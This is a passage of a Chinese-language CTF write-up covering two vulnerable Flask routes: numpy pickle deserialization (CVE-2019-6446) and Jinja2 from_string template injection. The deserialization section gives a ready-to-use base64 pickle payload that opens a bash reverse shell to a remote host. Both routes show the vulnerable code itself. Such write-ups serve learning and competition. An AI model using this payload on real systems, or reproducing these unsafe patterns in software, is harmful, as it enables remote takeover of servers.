 如果要直接返回flag,得使返回值的类型为字典,且有name键.

### numpy反序列化(CVE-2019-6446)

队里大佬找出来的,我都不知道numpy啥时候出了漏洞,.

这个洞非常坑,虽然找到了漏洞,也非常容易修复,但一改就被checkdown.

最后尝试使用replace替换黑名单关键字,但还是被人疯狂拿分.也可能是没发现的其他漏洞.

```python
@app.route('/getvdot',methods=['POST','GET'])
def getvdot():
    if request.method == 'GET':
        return render_template('getvdot.html')
    else:
        matrix1 = base64.b64decode(request.form['matrix1'])
        matrix2 = base64.b64decode(request.form['matrix2'])
        try:
            matrix1 = numpy.loads(matrix1)
            matrix2 = numpy.loads(matrix2)
        except Exception as e:
            print(e)
        result = numpy.vdot(matrix1,matrix2)
        print(result)
        return render_template('getvdot.html',msg=result,status='向量点积')

```

因为numpy的loads方法调用的也是pickle,因此pickle的payload还是可以用.

payload: post提交:

`matrix1=Y3Bvc2l4CnN5c3RlbQpwMQooUyJiYXNoIC1jICdiYXNoIC1pID4vZGV2L3RjcC8xOTIuMTY4LjU4LjEvNDQ0NCAwPiYxJyIKcDIKdHAzClJwNAou&matrix2=MQ==`

### Jinja2.from_string SSTI

也是今年新洞

https://www.exploit-db.com/exploits/46386

```python
@app.route('/hello',methods=['GET', 'POST'])
def hello():
    username = request.cookies.get('username')
    username = str(base64.b64decode(username), encoding = "utf-8")
    data = Jinja2.from_string("Hello , " + username + '!').render()
    is_value = False
    return render_template('hello.html', msg=data,is_value=is_value)

```

data处使用了 Jinja2.from_string直接拼接字符串,存在ssti.

poc 需要base64编码填入在cookie的username字段,还因为是python3 一些payload不能使用.

